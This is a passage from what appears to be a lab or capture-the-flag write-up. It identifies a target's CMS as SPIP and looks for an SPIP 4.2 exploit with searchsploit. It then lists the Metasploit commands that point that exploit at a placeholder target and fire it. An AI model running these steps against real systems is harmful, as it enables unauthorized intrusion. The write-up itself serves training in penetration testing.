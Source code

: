 - **Login Page:**  
  <img src="./images/login_page.png" alt="Login Page" width="600"/>

---

### 🔍 Exploit Search

We identified the CMS as **SPIP**.

**Command:**
```bash
searchsploit spip 4.2
```
<img src="./images/searchploit.png" alt="Searchsploit Results" width="600"/>

The exploit is also available in Metasploit.

**Metasploit Commands:**
```bash
search spip 4.2
set targeturi /spip
set lhost <YOUR_IP>
set rhost <TARGET_IP>
exploit
```
<img src="./images/exploit_find.png" alt="Metasploit Search" width="600"/>